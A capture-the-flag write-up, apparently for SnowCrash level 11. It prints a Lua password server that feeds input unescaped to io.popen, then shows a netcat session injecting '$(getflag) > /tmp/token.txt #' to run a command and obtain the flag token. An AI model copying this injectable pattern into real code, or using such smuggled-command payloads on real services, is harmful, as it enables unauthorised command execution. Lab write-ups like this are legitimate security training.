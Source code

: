 In the home directory you have the file `level11.lua` which contains the following:

``` lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Understanding a little bit the code, we can see that its just a server which asks for a password and then checks it by processing it with `sha1sum`, supposing that it's running as a daemon, we can exploit the `io.popen` which launches a system command by calling get flag and saving it to a file:

``` shell
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag) > /tmp/token.txt #
Erf nope..
level11@SnowCrash:~$ cat /tmp/token.txt
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
